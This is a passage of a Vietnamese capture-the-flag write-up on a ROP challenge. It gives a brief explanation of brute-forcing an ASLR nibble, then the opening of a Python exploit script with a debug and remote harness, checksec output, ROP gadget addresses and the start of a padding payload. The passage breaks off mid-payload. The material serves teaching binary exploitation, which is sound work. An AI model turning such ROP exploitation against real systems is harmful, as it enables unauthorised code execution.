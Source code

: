 ```py
    sleep(0.5)
    s(b'\0')
```

Và vì ASLR bật nên địa chỉ lúc nào cũng động, việc ta cần làm tiếp theo là brute 1 nibble của nó bằng cách chạy đi chạy lại nhiều lần payload với tỉ lệ `1/16` là điều hoàn toàn có thể

### Full exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from time import sleep
context.log_level = 'debug'
exe = context.binary = ELF('./chall_patched', checksec=False)
libc = exe.libc

def init(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        docker_port = sys.argv[1]
        docker_path = sys.argv[2]
        p = remote("localhost", docker_port)
        sleep(1)
        pid = process(["pgrep", "-fx", docker_path]).recvall().strip().decode()
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
# b*0x000000000040125f
b*0x0000000000401261
c
'''.format(**locals())

while True:
    p = init()
    # ==================== EXPLOIT ====================

    '''
    File:     /home/alter/lab/Practice/ASCIS2024/ROP/chall
    Arch:     amd64
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    '''
    def exploit():

        pop_rdi = 0x401247
        read_gadget = 0x401249
        rw_section = 0x404100

        pl = flat(
            b'A' * 0x20,
```